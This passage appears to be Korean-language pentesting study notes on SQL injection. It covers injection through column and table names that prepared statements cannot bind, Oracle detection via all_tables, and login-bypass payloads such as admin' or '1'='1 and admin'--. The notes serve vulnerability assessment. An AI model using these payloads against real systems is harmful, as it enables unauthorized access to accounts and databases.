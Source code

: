 
    \> 컬럼이름이나 테이블의 이름의 경우는 Prepared를 사용하지 못하고, 직접 로직을 만들어 필터링을 해줘야함
      따라서 검색 부분의 타이틀, 작성자 등 분류해서 검색하는 기능이 있다면 가능성이 있음

   







   c. select * from board where (case when 1=1 then 'test' else 'aaa' end) like '%test%' 


    \> 버프에서 입력시 (case+when+1=1+then+'test'+else+'aaa'+end) 공백을 넣어줘야함

   







  **2) Prepared Statement 환경에서의 테이블 파라미터에 대한 취약점 점검 (JAVA Web 환경)**

   

   a. 127.0.0.1:8080/security/example.jsp?tbname=ex_member 가 있을 경우, 두가지가 존재함

   

    \> select * from tbname
    
     \- 127.0.0.1:8080/security/example.jsp?tbname=all_tables로 바꿔서 보낼 경우, 

  ​    Table Name이 뜨면 100% from 절에 있는 것임. 또한 Oracle 사용중 임을 알 수 있다.

   

    \> select * from board where tbname = '~~' 
     \- prepared statement 는 table name에 적용될 수 없다 . 따라서 select * from ex_member where id = ?

  ​    이런식으로 table name이 아니라 id와 같은 컬럼명에 적용시켜야 함. 
     \- 이럴경우 select * from ex_member (where 1=1 and id = ? --) where id = ? 와 같이 table name에 대하여 sql       injection을 수행 할 수 있음

   

    \> 다른 방법도 있음 (더 쉬움)
     \- select * from ex_member where id = ?
     \- select * from (select * from ex_member where 1=1 또는 1=2) ex_member where id = ? sub 쿼리를 통하여

  ​    한번 더 실행 되도록 하면 값이 같아진다. 

   

  **3) 인증우회 공격**

   a. ID를 알경우 - in-line query, Terminating query

    \> in-line query
     \- "select * from member where id='{$id}' and pw='{$pw}'"
     \- "select * from member where id=' (admin' or '1'='1) ' and pw='{$pw}'"

  






    \> Terminating query
     \- "select * from member where id='{$id}' and pw='{$pw}'"
     \- "select * from member where id=' (admin' -- ) ' and pw='{$pw}'"
     \- "select * from member where id=' (admin'#) ' and pw='{$pw}'"
